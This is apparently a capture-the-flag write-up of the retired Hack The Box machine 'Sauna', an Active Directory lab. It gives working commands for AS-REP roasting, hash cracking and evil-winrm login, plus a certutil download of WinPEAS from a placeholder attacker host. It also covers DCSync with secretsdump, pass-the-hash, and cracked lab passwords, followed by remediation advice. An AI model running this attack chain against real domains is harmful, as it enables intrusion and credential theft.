







# Sauna — Hack The Box



| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Username OSINT, AS-REP Roasting, AutoLogon credential leak, DCSync |

---

## TL;DR

Sauna's company website lists employee full names, which I turned into a
username list and then AS-REP roasted to get a first foothold. Running
WinPEAS from there revealed a second account configured for AutoLogon,
leaking its plaintext password. That second account turns out to hold
DCSync rights on the domain, which hands over the Administrator hash.

---

## Recon

```bash
nmap -sC -sV 10.129.95.180
```



Results: HTTP (80), LDAP (389, domain `EGOTISTICAL-BANK.LOCAL`), Kerberos
(88), SMB (445).

### HTTP

The website listed employee names under a "Meet the Team" section:



Turned those into a username-format guess list using common patterns
(`fergus.smith`, `fsmith`, `f.smith`, etc.) for each name.

---

## Foothold / Initial Access

With a username list but no idea about the domain's password policy,
brute-forcing felt risky. AS-REP Roasting doesn't need a password guess
and doesn't touch the lockout counter, so that came first:

```bash
impacket-GetNPUsers egotistical-bank.local/ -usersfile users.txt -dc-ip 10.129.95.180
```



Got a hash for the `fsmith` user — pre-authentication was disabled on
that account. Cracked it offline:

```bash
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:...
john hash.txt -w=/usr/share/wordlists/rockyou.txt
```

Credentials recovered: `fsmith:Thestrokes23`. Checked they worked over
WinRM with `crackmapexec` first, then connected:

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

Shell and user flag as `fsmith`.

---

## Privilege Escalation

### Finding AutoLogon credentials

Ran WinPEAS to enumerate common Windows misconfigurations:

```powershell
certutil -urlcache -split -f http://<ATTACKER_IP>/winPEASx64.exe winPEASx64.exe
.\winPEASx64.exe
```



WinPEAS flagged **AutoLogon credentials** configured on the box —
`svc_loanmanager` with its password stored in cleartext in the registry.
AutoLogon is meant for convenience, not security, and it leaves a
plaintext credential sitting in `HKLM\...\Winlogon` for anyone with local
access to read.

### DCSync via svc_loanmgr

Connected as the recovered account and collected BloodHound data:

```bash
evil-winrm -i 10.129.8.203 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

In BloodHound, `svc_loanmgr` has the **`GetChangesAll`** extended right on
the domain — DCSync rights:



Used `secretsdump` to dump the Administrator hash via DCSync:

```bash
impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.129.8.203
```



Confirmed the hash worked with `crackmapexec`, then used it directly with
`psexec` (pass-the-hash — no need for a plaintext password):

```bash
impacket-psexec egotistical-bank.local/administrator@10.129.8.203 -hashes <NTLM_HASH>:<NTLM_HASH>
```

Domain Admin, root flag retrieved.

---

## Lessons Learned

- A company's own "About us" / team page is a legitimate username source
  — real names map to predictable AD username conventions more often than
  not.
- AS-REP Roasting is worth trying against *any* generated username list
  before committing to a password spray, since it can't trigger a
  lockout.
- AutoLogon registry keys are a recurring, easy privesc win on Windows —
  always worth an automated check (WinPEAS or equivalent) rather than
  manual searching.
- DCSync rights can end up on an ordinary-looking service account, not
  just Domain Admins — BloodHound is the only reliable way to see who
  actually holds them.

---

## Remediation

- Don't list full employee names publicly if usernames follow a
  predictable pattern derived from them — or at least don't reuse that
  pattern for AD accounts.
- Enable Kerberos pre-authentication on every account.
- Never configure AutoLogon with a plaintext password in the registry;
  use a credential vault or managed service account instead.
- Restrict DCSync (`GetChanges`/`GetChangesAll`) rights to actual domain
  controller computer accounts, and audit regularly.

---

## Tools used

- `nmap`
- Impacket (`GetNPUsers`, `secretsdump`, `psexec`)
- `john`, `hashcat`
- `crackmapexec`, `evil-winrm`
- WinPEAS
- SharpHound / BloodHound

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Sauna](https://www.hackthebox.com/machines/sauna)
